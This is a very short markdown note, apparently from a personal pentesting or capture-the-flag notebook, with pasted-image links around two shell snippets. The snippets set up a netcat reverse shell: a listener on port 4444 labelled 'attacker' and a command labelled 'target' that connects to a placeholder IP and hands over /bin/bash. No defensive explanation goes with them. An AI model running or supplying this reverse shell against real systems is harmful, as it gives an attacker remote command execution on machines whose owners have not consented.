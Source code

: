 ![[Pasted image 20231219172249.png]]

```shell
nc -nvlp 4444 #attacker
```

```shell
nc  {ip} 4444 -e /bin/bash # target
```

![[Pasted image 20231219172310.png]]

